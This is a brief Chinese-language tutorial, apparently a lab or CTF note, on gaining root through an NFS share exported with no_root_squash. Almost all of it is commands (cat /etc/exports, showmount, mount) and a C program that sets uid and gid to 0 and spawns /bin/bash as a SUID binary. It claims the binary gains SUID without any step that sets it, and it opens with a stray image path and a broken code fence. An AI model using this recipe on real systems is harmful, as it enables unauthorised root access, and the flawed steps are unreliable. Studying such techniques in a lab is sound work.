 ```
简单点来说就是因为靶机的错误分享配置，导致攻击机挂载上去以后创建的任何文件都能够以root的身份和权限运行。

## 步骤
1. 在靶机查看 ```/etc/exports```
> cat /etc/exports

2. 检查上面分享文件是否存在```no_root_squash```选项

3. 在攻击机查看靶机的分享目录
> showmount -e 靶机IP

4. 在攻击机```/tmp/```目录下创建一个文件夹
> mkdir /tmp/expnfs

5. 把靶机有```no_root_squash```选项的文件夹挂载到攻击机上
> mount -o rw 靶机IP：/靶机共享文件夹  /tmp/expnfs  
> 例子：mount -o rw 10.0.2.12:/backups  /tmp/expnfs)

6. 创建一个c程序，把如下代码写进去。
```
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}

```

7. 在攻击机挂载目录上编译上面的c程序
```
gcc nfs.x -o nfs -w
```

8. 此时回到靶机的分享目录，就可以看见上面的nfs二进制文件，并且具有SUID权限，执行即可提权